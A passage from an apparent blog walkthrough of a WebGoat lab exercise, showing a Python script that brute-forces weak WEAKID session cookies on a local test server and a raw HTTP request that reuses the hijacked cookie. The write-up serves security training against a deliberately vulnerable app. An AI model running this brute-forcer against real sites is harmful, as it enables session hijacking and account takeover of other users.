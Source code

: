 			cookies = dict(
				WEAKID=reformed_id_guess,
				JSESSIONID=self.current_webgoat_cookie,
				acopendivids="swingset,jotto,phpbb2,redmine",
				acgroupswithpersist="nada"
			)
			print ("[*] Attempt {} | Cookie: {}".format(attempts, reformed_id_guess))
			r = requests.post(self.attack_url, params=params,headers=self.headers,cookies=cookies)
			if r.status_code == 200:
				if "invalid" not in r.text.lower():
					print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
					print ("[+] SUCCESS!")
					print ("[+] Cookie Value: {}".format(reformed_id_guess))
					print ("=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=")
					logged_in = True
					sys.exit(0)
				else:
					login_time_guess -= 1

		if not logged_in:
			print ("Failed to find session login")

def main():
	attack_url = 'http://192.168.56.101/WebGoat/attack?Screen=224&menu=1800'
	current_webgoat_cookie = "F6E740AFB0D99B26D271E23C39F10F78"
	session_hijack = SessionHijack(attack_url, current_webgoat_cookie)
	session_hijack.find_open_session()
	session_hijack.brute_force_cookie()

if __name__ == "__main__":
	main()
{% endhighlight %}

Alright, looks good. Let's give it a shot and see if we can jack a session:

<img src="{{ site.baseurl }}/images/webgoat/2017-02-01-webgoat_part_18/cookie-brute-force.jpg">

Awesome. And when we send a request and substitute our ```WEAKID``` values for the jacked session cookie:

<hr>
POST /WebGoat/attack?Screen=224&menu=1800 HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:51.0) Gecko/20100101 Firefox/51.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=224&menu=1800
Cookie: WEAKID=```19720-1485917613225```; JSESSIONID=F6E740AFB0D99B26D271E23C39F10F78; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
